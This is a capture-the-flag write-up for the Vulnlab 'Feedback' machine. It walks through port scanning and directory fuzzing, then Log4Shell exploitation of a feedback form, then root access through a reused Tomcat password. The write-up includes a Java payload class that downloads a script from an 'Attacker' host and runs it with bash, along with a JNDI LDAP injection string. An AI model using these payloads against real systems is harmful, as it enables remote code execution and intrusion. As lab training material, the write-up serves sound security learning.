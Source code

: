 ```yaml
---
title: Vulnlabs - Feedback
date: 2023-08-10 
categories: [WriteUps]
tags: [writeups] [vulnlabs]   # TAG names should always be lowercase
---
```

# Vulnlab: Feedback

`Difficulty:` Easy

## Summary:

- Apache Tomcat
- /feedback Directory where "feedback" is logged using Java
- Log4Shell (CVE-2021-44228)
- Password Reuse

### Initial Scan
Initial Nmap scan shows an Apache Tomcat running over HTTP on port 8080.
```shell
➜  ~ nmap -sC -sV 10.10.120.186
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-09 20:16 EDT
Nmap scan report for 10.10.120.186
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 93:54:07:04:92:d4:1f:fd:54:21:5e:b2:db:ca:7c:ad (RSA)
|   256 f6:ec:e3:d7:97:e6:34:38:62:fe:58:2a:b0:98:21:99 (ECDSA)
|_  256 ca:5a:8b:bc:12:4f:8e:9f:13:30:ff:c1:40:fe:a0:d7 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.56
|_http-title: Apache Tomcat/9.0.56
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Visiting the page reveals it is a default page with nothing inherently suspicious. 

### Directory Fuzzing

A quick Dirb scan reveals the /feedback directory.
```shell
➜  ~ dirb http://10.10.117.96:8080

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Wed Aug  9 21:03:03 2023
URL_BASE: http://10.10.117.96:8080/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.117.96:8080/ ----
+ http://10.10.117.96:8080/docs (CODE:302|SIZE:0)
+ http://10.10.117.96:8080/examples (CODE:302|SIZE:0)
+ http://10.10.117.96:8080/favicon.ico (CODE:200|SIZE:21630)
+ http://10.10.117.96:8080/feedback (CODE:302|SIZE:0)
+ http://10.10.117.96:8080/host-manager (CODE:302|SIZE:0)
+ http://10.10.117.96:8080/manager (CODE:302|SIZE:0)

-----------------
END_TIME: Wed Aug  9 21:15:25 2023
DOWNLOADED: 4612 - FOUND: 6
```

This page allows us to submit feedback. When successful the page tell us that our feedback has been 'logged'. Even without the context clues this can be verified by viewing source.

```html
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF 8">
        ...
    </head>
    <body>
        ...
        <!-- Builb with Java, Struts2 & Log4J -->
    </body>
</html>
```

### Log4Shell
You can either create your own java payload or work your way around the GitHub PoC.

https://vulndev.io/2021/12/11/lab-exploiting-log4shell-cve-2021-44228/
```java
public class RCE {
    static {
        try {
            Runtime r = Runtime.getRuntime();
            Process p = r.exec("wget http://Attacker/x -O /tmp/x");
            p.waitFor();
            r = Runtime.getRuntime();
            p = r.exec("/bin/bash /tmp/x");
            p.waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public RCE(){
        System.out.println("Is this RCE?");
    }
}
```

https://github.com/kozmer/log4j-shell-poc
```shell
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

Pretty much, we are able to use JNDI (Java Naming and Directory Interface) as a means to interract when an attacker LDAP server. We host our payload and when the feedback request gets parsed it will download our payload and run it (giving us a shell).

### Root
Simple Password reuse to wrap it all up.
```shell 
tomcat@ip-10-10-10-7:~/conf$ ls
ls
catalina.policy      jaspic-providers.xml  server.xml	     web.xml
catalina.properties  jaspic-providers.xsd  tomcat-users.xml
context.xml	     logging.properties    tomcat-users.xsd
tomcat@ip-10-10-10-7:~/conf$ cat tomcat-users.xml
cat tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <user username="admin" password="[*****]" roles="manager-gui"/>
  <user username="robot" password="[*****]" roles="manager-script"/>

</tomcat-users>
tomcat@ip-10-10-10-7:~/conf$ su root
su root
Password: [*****]
root@ip-10-10-10-7:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-10-10-7:~# ls
ls
root.txt  snap
  ```


